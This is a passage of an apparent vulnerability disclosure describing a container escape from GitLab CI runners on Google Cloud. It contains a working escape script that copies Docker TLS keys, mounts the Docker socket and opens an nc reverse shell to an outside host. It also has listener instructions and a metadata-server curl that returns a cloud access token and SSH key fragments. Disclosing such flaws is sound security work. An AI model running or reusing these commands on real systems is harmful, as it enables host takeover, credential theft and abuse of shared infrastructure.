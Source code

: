 ```
echo "ps uax > $host_path/ps.txt" >> /cmd
echo "cat /etc/docker/ca.pem > $host_path/ca.pem" >> /cmd
echo "cat /etc/docker/server.pem > $host_path/server.pem" >> /cmd
echo "cat /etc/docker/server-key.pem > $host_path/server-key.pem" >> /cmd
echo "mount -o bind /var/run/docker.sock $host_path/docker.sock" >> /cmd
echo "/usr/bin/nc $HOST 1337 -e /bin/sh &" >> /cmd
chmod a+x /cmd

while test 1
do
  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
  sleep 60
done
```
5. Push the files to the repository.
6. Enable CI/CD jobs on the repository, in case they aren't, using the `.gitlab-ci.yml` in the repository.
7. Set up a reverse shell listener with `nc -lvp 1337` on the host you specified in the bash script above.
8. Run the job

### Impact

Based on the host configuration, there is a clear expectation that CI jobs should not have access to the host, given the use of $DOCKER_USER in the firewall rules, and the configuration in place to prevent access to GCP metadata and host configuration in the way the container is configured. 

Being able to break this confinement allows for unconstrained resource usage on the CI host, as well as access to GCP resources and also other hosts on the internal GCP network.  It is also possible to disable iptables and suricata entirely - so arbitrary software and docker images can also be downloaded and run, to facilitate things like cryptocoin mining, something the host has been configured to try and prevent via iptables and suricata rules. This could be used by an attacker to consume significant compute resources in the form of bandwidth usage and compute time, given how easy it is to spin up multiple GitLab accounts, and to restart jobs programmatically when the maximum execution time is reached.

I did not see any evidence of shared jobs in my testing, however if multiple jobs were scheduled on a dedicated runner (which I did not test) then this could also lead to a loss of confidentiality between jobs, as the full container configuration and contents are accessible once the container is escaped.

### Examples

Repo: https://gitlab.com/ec0bb/citest

GCP access (albeit limited) -
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
{"access_token":"ya29.c.b0AXv0zTPHcDsuE3JOIVaFex7mGac13DuX3nI8XvoeSTANd0HfWmJ8BaTiE0P8GGRBVjOH3--Bangi4UVHqBpR7hLsfielnvZd5VWsRVM9xedCsFchJ1VlIl_RHRAgndu79QhAdEtquGQ9FVw8K_v-beS5zXMSh2DZNEfrUx6IgkAF3skn2sAkxg89XQm5gm067YQIAoaPlyI","expires_in":3326,"token_type":"Bearer"}

ya29.c.b0AXv0zTO_ny6xsfw0m5_YDMjdRUJbxx4jtnhEvrHEBghVmwDPL8GYx8UEQyB2spVmqtEy4IO_1kIONyCny-qwV7bi32okDSc8eNSTwXDUynLVayT3O0OiQ_FOCBlIMaU8Afx_Cbnr3xM7okiaMie0OWkRt4rHnYakWzXUZ_skTaLtN75GASDhs-mqFBe2LPFhj58eGf7DnFNk
token bb




instance/attributes/cos-update-strategy update_disabled
instance/attributes/sshKeys cos:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHZ9aaQ4+W
humgGQokzT+0zX+bS6AkSbs/JYeuoV8Sdb2cp88txEWoozuamR/S6MXp0lHF7hD2hmClvk5LESQLo9pe
FWXu8U1RZnYyN/pgAA3SpiLaWppxaEd5s5Ry/EXMLunbShenhpg05aby26wBHnBINU4ERITySAW362xT
```